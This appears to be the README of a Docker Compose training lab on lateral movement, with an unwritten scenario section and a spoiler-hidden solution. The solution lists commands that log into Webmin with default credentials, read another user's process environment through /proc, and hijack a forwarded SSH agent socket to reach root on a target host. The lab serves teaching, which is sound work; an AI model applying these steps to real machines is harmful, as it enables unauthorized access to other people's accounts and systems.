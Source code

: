 # Lateral-Movement-Example
Docker Compose Project which showcases Lateral Movement possibilities

## Scenario

ToDO, write Text!
## Solution
<details>
  <summary>(Spoiler Warning)</summary>
Log in on webmin with creds root:password on port 10000

Go to terminal

Use ssh key to log in as alice on jumphost

```
ssh -i /root/.ssh/alice alice@jumphost
```

find out about sudo

```
sudo -l
```

Find out that bob is logged in, and that he uses a forwarded ssh agent. 

```
sudo ps aux | grep ssh
sudo pstree -p bob
sudo -u bob cat /proc/20/environ
```

Use the forwarded ssh agent to log in as bob on the target machine

```
sudo SSH_AUTH_SOCK=/tmp/ssh-XXXXiyyyyy/agent.xx ssh root@target
```


output the flag

```
cat /root/flag.txt
```
</details>
